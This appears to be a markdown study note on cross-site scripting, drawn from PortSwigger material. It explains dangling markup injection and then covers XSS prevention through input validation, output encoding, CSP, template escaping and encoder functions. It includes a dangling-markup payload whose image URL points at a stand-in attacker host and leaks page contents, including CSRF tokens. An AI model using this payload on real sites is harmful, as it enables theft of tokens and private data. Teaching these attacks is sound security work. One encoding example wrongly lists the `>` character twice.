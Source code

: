 # CROSS-SITE SCRIPTING
## Dangling Markup Injection
> Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible due to input filters or other defenses.
- It can often be exploited to capture sensitive information that is visible to others including CSRF tokens that can be used to perform unauthorized actions on behald of the user.
- Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```
- If the application doesn't filter or escape the `>` or `"` characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:
```
">
```
- If regular XSS attack is not possible, due to input filters, CSP or other obstacles, it might still be possible to deliver a dangling markup injection attack using a payload as below:
```
"><img src='//attackerwebsite.com?
```
- This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. The `src` attribute is left **dangling**.
- When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute and everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string.
- Any non-alphanumeric characters, including newlines will be `URL-encoded`.
- The attacker can capture part of the application's response following the injection point, which might contain sensitive data that may include CSRF tokens, email messages or financial data.

### How to prevent dangling markup attacks
- Dangling markup attacks can be prevented using the same general defenses for preventing XSS by encoding data on output and validating input on arrival.

--------------------------------------------------------------------------------

## Preventing XSS attacks
- Preventing XSS is trivial in some cases but can be much harder depending on the complexity of the application and the ways it handles user-controllable data.
- Effectively preventing XSS vulnerabilities is likely to involve a combination of the following measures:
1. `Validate input on arival`
- At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
- Encoding is probably the most important line of XSS defense but is not sufficient to prevent XSS vulnerabilities in every context.
- Validate input as strictly as possible at the point when it is first received from a user.
- Input validation includes:
  a. If user submits a URL that will be returned in responses, validating that it starts with a safe protocol such as HTTP and HTTPS otherwise someone might exploit the site with harmful protocol like javascript.
  b. If a user supplies a value that it expected to be numeric, validating that the value actually contains an integer.
  c. Validating that input contains only an expected set of characters.

2. `Encode data on output`
- At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. This might require applying combinations of HTML, URL, JS and CSS encoding.
- Should be applied directly before user-controllable data is written to a page, because the context being written into determines what kind of encoding you need to use.
- In an HTML context, you should convert non-whitelisted values into HTML entities:
    - `<` converts to: `&lt;`
    - `>` converts to: `&gt;`
- In a JS string context, non-alphanumeric values should be **Unicode-escaped**:
    - `>` converts to: `\u003c`
    - `>` converts to: `\u003e`
- Sometimes apply multiple layers of encoding in the correct order such as to safely embed user input inside an event handler, you need to deal with both JS context and HTML context.
- So you need to first `Unicode-escape` the input and then `HTML-encode it`:
```
<a href="#" onclick="x='this string needs two layers of escaping'">test</a>
```

3. `Whitelisting vs Blacklisting`
- Input validation should employ **whitelists** rather than **blacklists** as this will ensure your defense doesn't break when new harmful protocols appear and make it less susceptible to attacks that seek to obfuscate invalid values to evade a blacklist.

4. `Allowing "safe" HTML`
- Allowing users to post HTML markup should be avoided wherever possible but sometimes its a business requirement. Eg a blog site might allow comments to be posted containing some limited HTML markup.
- Classic approach is to try to filter out potentially harmful tags and JS.
- You can try implement this using a whitelist of safe tags and attributes but with discrepancies in browser parsing engines and quirks like mutation XSS, this approach is extremely difficult to implement securely.

5. `Use appropriate response headers`
- To prevent XSS in HTTP responses that aren't intended to contain any HTML, JS, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.

6. `Content Security Policy`
- As last line of defense, use CSP to reduce the severity of any XSS that still occur.
- CSP lets you control various things such as whether external scripts can be loaded and whether inline scripts will be executed.
- An example CSP is as follows:
```
default-src 'self'; script-src 'self'; object-src 'none'; frame-src 'none'; base-uri 'none';
```
- This policy specifies that resources such as images and scripts can only be loaded from the same origin as the main page. So even if an attacker can successfully inject an XSS payload they can only load resources from the current origin. 

7. `Preventing XSS using a template engine`
- Many modern websites use server-side template engines such as `Twig` and `Freemarker` to embed dynamic content in HTML.
- These typically define their own escaping system. Eg in Twig you can use the`e()` filter with an argument defining the context:
```
{{ user.firstname | e('html') }}
```
- Other template engines such as Jinja and React, escape dynamic content by default which effectively prevents most occurrences of XSS.

8. `Preventing XSS in PHP`
- In PHP there is a built-in function to encode entities called `htmlentities` call this function to escape your input when inside an HTML context. Function should be called with 3 arguments:
    a. Your input string.
    b. `ENT_QUOTES`, which is a flag that specifies all quotes should be encoded.
    c. The character set, which in most cases should be UTF-8
- Eg:
```
<?php echo htmlentities($input, ENT_QUOTES, 'UTF-8');?>
```
- When in a JS string context, Unicode-escape input as described. Unfortunately, PHP doesn't provide an API to Unicode-escape a string. 
- Here is how to use the jsEscape function in PHP:
```
<script>x= '<?php echo jsEscape($_GET['x'])?>'</script>
```

9. `Preventing XSS client-side in JS`
- To escape user input in an HTML context in JS, you need your own HTML encoder because JS doesn't provide an API to encode HTML.
- Example of JS code that converts a string to HTML entities:
```
function htmlEncode(str){
  return String(str).replace(/[^\w. ]/gi, function(c){
    return '&#'+c.charCodeAt(0)+';';
  });
}
```
You would then use this function as follows:
```
<script>document.body.innerHTML=htmlEncode(untrustedValue)</script>
```
If your input is inside a JS string, you need an encoder that performs Unicode escaping as below:
```
function jsEscape(str){
  return String(str).replace(/[^\w. ]/gi, function(c){
    return '\\u'+('0000'+c.charCodeAt(0).toString(16)).slice(-4);
  });
}
```
You would then use this function as follows:
```
<script>document.write('<script>x="'+jsEscape(untrustedValue)+'";</script>')</script>
```

10. `Preventing XSS in jQuery`
- Most common form of XSS in jQuery is when you pass user input to a jQuery selector.
- Web developers often use `location.hash` and pass it to the selector which would cause XSS as jQuery would render in the HTML.
- jQuery recognized this issue and patched their selector logic to check if input begins with a hash.
- jQuery will only render HTML if the first character is a `<`. If you pass untrusted data to the jQuery selector, ensure you correctly escape the value using the `jsEscape` function.


--------------------------------------------------------------------------------
# MATERIALS
## Referencing
- [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)
- [Dangling Markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
- [Preventing XSS](https://portswigger.net/web-security/cross-site-scripting/preventing)
- [Detecting and exploiting path-relative stylesheet import (PRSSI) vulnerabilities](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities#badcss)

## Labs
- [Reflected XSS protected by CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)
- [Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
